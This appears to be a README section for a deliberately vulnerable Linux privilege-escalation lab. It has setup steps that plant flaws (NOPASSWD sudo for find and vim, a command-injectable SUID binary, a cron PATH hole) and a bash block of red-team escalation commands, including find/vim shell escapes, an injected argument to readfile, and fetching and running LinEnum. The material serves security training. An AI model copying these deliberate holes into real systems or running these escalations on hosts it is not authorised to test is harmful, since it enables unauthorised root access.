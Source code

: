 ### Manual Setup Steps
1. Create user `lowpriv` with password `userpass123`
2. Add sudo entries for find and vim with NOPASSWD
3. Create vulnerable SUID binary `/usr/local/bin/readfile`
4. Set up cron job with PATH vulnerability
5. Place flags in `/root/`

## Attack Methodology

### Expected Attack Path
1. **Initial Access**: SSH as `lowpriv` user
2. **System Enumeration**:
   - Check sudo permissions
   - Find SUID binaries
   - Examine cron jobs
3. **Privilege Escalation Vectors**:
   - **Sudo find**: Execute commands via find
   - **Sudo vim**: Shell escape from vim
   - **SUID binary**: Command injection in readfile
4. **Flag Retrieval**: Access root-owned files

### Key Commands Red Team Will Use
```bash
# Initial enumeration
whoami
id
sudo -l
ps aux
ls -la /etc/cron*

# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null

# Sudo find exploitation
sudo find /etc -name passwd -exec /bin/sh \;
sudo find . -exec /bin/sh \; -quit

# Sudo vim exploitation
sudo vim
# In vim: :!/bin/sh

# SUID binary exploitation
/usr/local/bin/readfile "/root/flag.txt"
/usr/local/bin/readfile "/etc/passwd; cat /root/flag.txt"

# Check writable paths and cron
ls -la /opt/scripts/
crontab -l
cat /etc/crontab

# LinEnum or similar enumeration scripts
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
